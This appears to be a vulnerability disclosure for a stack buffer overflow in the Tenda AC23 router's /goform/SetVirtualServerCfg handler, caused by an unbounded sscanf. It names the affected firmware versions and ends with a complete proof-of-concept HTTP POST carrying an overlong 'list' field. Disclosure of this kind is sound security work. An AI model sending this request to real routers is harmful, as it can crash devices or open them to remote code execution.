



# Information


**Vendor of the products:**   Shenzhen Tenda Technology Co.,Ltd.

**Vendor's website:**https://www.tenda.com.cn/

**Affected products:** AC23

**Affected firmware version:** <=  V16.03.07.52

**Firmware download address:** [AC23_服务支持_腾达Tenda官方网站](https://www.tenda.com.cn/product/help/AC23#download)

# Overview

A buffer overflow vulnerability was discovered on the latest version of the Tengda AC23 router,  V16.03.07.52, where an attacker sent a carefully constructed http post packet to the request path /goform/SetVirtualServerCfg triggered, resulting in a denial of service attack or even RCE, specifically through the function sscanf(s_4, "%[^,]%*c%[^,]%*c%[^,]%*c%s", v12, v13, v14, v15) implemented, because there is no boundary check on the s_4

# Vulnerability details

Here you can see that the list field is valued, and the save_virtualser_data function is called as the second parameter



However, when the length of the list field is greater than or equal to 5, the next sscanf function is called, but the overflow occurs due to no boundary check



# POC

```
POST /goform/SetVirtualServerCfg HTTP/1.1
Host: 192.168.102.145
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: http://192.168.102.145/main.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 517

list=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaaf
```


